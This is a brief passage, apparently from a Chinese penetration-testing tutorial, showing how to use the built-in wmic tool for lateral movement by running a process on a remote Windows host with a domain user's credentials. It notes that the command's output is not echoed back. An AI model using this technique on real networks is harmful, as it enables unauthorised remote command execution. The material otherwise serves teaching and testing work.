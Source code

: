 #### 4.2.2.2 利用 wmic 进行横向移动

利用系统自带的工具 wmic 在目标主机上执行任意命令

```bash
wmic /node:192.168.19.178 /user:adtest\jeff1 /password:test@123 process call create "calc" 缺点:无法回显命令

```

![](images/yushentou/15899744310433.png)


